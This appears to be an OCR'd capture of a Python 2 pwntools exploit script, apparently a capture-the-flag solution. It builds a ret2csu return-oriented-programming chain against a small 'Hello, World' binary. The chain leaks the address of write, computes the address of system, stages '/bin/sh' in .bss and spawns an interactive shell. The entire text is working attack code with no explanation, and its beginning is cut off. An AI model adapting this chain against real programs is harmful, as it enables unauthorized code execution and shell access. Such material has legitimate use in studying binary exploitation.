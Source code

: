 ```
payload1 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload1 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload1 += "\x00"*56
payload1 += p64(main)

p.recvuntil("Hello, World\n")

print "\n#############sending payload1#############\n"
p.send(payload1)
sleep(1)

write_addr = u64(p.recv(8))
print "write_addr: " + hex(write_addr)

system_addr = write_addr - off_system_addr
print "system_addr: " + hex(system_addr)

bss_addr=0x601028

p.recvuntil("Hello, World\n")

#rdi=  edi = r13,  rsi = r14, rdx = r15 
#read(rdi=0, rsi=bss_addr, rdx=16)
payload2 =  "\x00"*136
payload2 += p64(0x400606) + p64(0) + p64(0) + p64(1) + p64(got_read) + p64(0) + p64(bss_addr) + p64(16) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload2 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload2 += "\x00"*56
payload2 += p64(main)

print "\n#############sending payload2#############\n"
p.send(payload2)
sleep(1)

p.send(p64(system_addr))
p.send("/bin/sh\0")
sleep(1)

p.recvuntil("Hello, World\n")

#rdi=  edi = r13,  rsi = r14, rdx = r15 
#system(rdi = bss_addr+8 = "/bin/sh")
payload3 =  "\x00"*136
payload3 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(bss_addr) + p64(bss_addr+8) + p64(0) + p64(0) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload3 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload3 += "\x00"*56
payload3 += p64(main)

print "\n#############sending payload3#############\n"

sleep(1)
p.send(payload3)

p.interactive()
```
